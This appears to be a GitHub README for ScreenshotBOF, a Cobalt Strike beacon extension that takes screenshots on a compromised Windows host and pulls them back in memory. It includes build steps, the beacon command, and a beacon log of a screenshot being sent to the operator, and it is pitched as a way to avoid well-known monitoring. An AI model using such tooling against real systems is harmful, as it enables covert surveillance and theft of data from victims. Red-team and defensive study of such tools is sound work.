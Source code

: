 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot downloaded in memory.

## Self Compilation
1. git clone the repo
2. open the solution in Visual Studio
3. Build project BOF

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof {local filename}
```
beacon> screenshot_bof sad.bmp
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 4860 bytes
[+] received output:
[*] Tasked beacon to printscreen and save to sad.bmp
[+] received output:
[+] PrintScreen saved to bitmap...
[*] started download of sad.bmp
```

## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit